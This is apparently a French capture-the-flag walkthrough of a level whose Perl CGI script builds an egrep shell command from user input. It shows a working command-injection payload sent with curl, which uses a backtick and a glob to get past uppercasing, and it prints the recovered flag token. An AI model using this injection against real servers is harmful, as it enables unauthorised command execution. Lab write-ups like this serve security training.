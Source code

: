 Au login nous voyons un fichier `level12.pl` qui est un script perl.

```perl
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}
``` 
Nous voyons que le script utilise la fonction `egrep` pour rechercher des lignes dans le fichier `/tmp/xd`.

Il attend un argument x et y
x est transformer en majuscule, il est donc impossible d'envoyer la commande directement

Notre idée est de créer un fichier avec un nom en majuscule pour etre reconnu et lu par egrep.

nous creons un fichier dans /tmp/TEST  dans lequel nous mettons la commande suivante:

```bash
echo "getflag > /tmp/file"
```
nous donnons les droits d'execution au fichier
```bash
chmod +x /tmp/TEST
```
Nous allons executer le curl du script pearl :
```bash
curl 'http://localhost:4646/?x="`/*/TEST`"'
```
Nous allons lire le fichier `/tmp/file` pour obtenir le flag
```bash
cat /tmp/file
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
Nous avons le flag `g1qKMiRpXf53AWhDaU7FEkczr`